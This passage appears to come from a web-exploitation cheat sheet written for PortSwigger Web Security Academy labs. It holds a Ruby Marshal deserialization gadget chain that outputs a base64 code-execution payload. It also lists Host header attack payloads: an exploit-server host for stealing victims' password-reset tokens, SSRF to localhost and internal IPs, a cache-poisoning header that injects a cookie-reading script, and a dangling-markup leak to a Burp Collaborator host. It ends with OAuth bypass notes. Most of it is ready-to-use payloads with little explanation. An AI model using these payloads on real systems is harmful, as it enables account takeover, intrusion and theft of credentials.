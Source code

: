 wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
## HTTP Host header attacks
The best place, where you can set this type of attacks is in Forgot password? functionality.  
Set your exploit server in Host and change username to victim's one  
Go to exploit server logs and find victim's forgot-password-token  
These Headers can also be used, when Host does not work:
```
X-Forwarded-Host: exploit-server.com
X-Host: exploit-server.com
X-Forwarded-Server: exploit-server.com
```
### Exploits
1. To send malicious email put your server in Host
```
Host: exploit-server.com
```
2. Admin panel from localhost only
```
GET /admin HTTP/1.1
Host: localhost
```
3. Double Host / Cache poisoning
```
Host: 0adf00cc033d5f09c05b077d000200eb.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
4. SSRF
```
GET /admin HTTP/1.1
Host: 192.168.0.170
```
5. SSRF
```
GET https://0a44007e03fb1d0cc0068900005000d1.web-security-academy.net HTTP/1.1
Host: 192.168.0.170
```
6. Dangling markup
```
Host: 0a42005f03d221bec0c45997001600ce.web-security-academy.net:'<a href="http://burp-collaborator.com?
```
## OAuth authentication
Arises at Sign-in page. The main request to play with is `/auth?client_id=...`
### Exploits
1. Authentication bypass via OAuth implicit flow  
Intercept the whole process of OAuth authentication and observe /authenticate POST request that contains email and username. Change these parameters to carlos'.
2. Forced OAuth profile linking  
```